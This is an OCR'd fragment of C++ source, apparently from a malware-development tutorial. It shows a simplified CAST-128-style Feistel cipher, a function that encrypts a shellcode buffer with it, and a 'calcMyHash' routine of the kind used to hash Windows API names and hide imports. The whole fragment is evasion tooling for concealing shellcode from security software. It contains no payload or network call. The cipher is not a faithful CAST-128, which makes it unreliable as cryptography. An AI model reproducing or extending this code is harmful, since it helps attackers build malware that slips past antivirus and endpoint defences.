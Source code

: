 ```cpp

  for (int i = 0; i < ROUNDS; i++) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

// CAST-128 decryption
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

DWORD calcMyHash(char* data) {
  DWORD hash = 0x23;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

```